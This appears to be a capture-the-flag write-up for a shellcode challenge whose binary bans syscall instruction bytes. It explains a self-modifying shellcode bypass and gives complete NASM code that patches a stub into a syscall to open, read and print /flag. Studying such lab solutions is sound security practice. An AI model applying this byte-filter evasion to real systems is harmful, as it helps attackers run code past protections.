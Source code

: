 ![image.png](image%201.png)

### Overview

- **Challenge**: Execute shellcode on a remote server to read and output /flag.
- **Setup**: Binary maps rwx memory at 0x26e45000, accepts 0x1000 bytes of shellcode, bans bytes 0x80cd, 0x340f, 0x050f (system call instructions).
- **Goal**: Open /flag, read it, write to stdout, exit cleanly.

### Constraints

- **Banned Bytes**: 0x80cd (int 0x80), 0x340f (sysenter), 0x050f (syscall).
- **Impact**: No direct system calls allowed.

### Approach

- **Self-Modifying Shellcode**:
    - Use stub 0x0f 0x04 (safe initially).
    - Modify to 0x0f 0x05 (syscall) at runtime.
    - Perform system calls with modified stub.

### Solution

1. **Shellcode (NASM)**:
    
    
    ```jsx
    BITS 64
    _start:
        lea rax, [rel stub]
        mov byte [rax + 1], 0x05    *; Make syscall*
        lea rdi, [rel flag_str]     *; "/flag"*
        mov rax, 2                  *; open*
        mov rsi, 0                  *; O_RDONLY*
        call stub
        mov r12, rax                *; Save fd*
        mov rax, 0                  *; read*
        mov rdi, r12
        lea rsi, [rel buffer]
        mov rdx, 0x100              *; 256 bytes*
        call stub
        mov rax, 1                  *; write*
        mov rdi, 1                  *; stdout*
        lea rsi, [rel buffer]
        mov rdx, 0x100
        call stub
        mov rax, 60                 *; exit*
        mov rdi, 0
        call stub
    stub:
        db 0x0f, 0x04               *; Becomes 0x0f 0x05*
        ret
    flag_str: db "/flag", 0
    buffer: times 256 db 0
    ```
    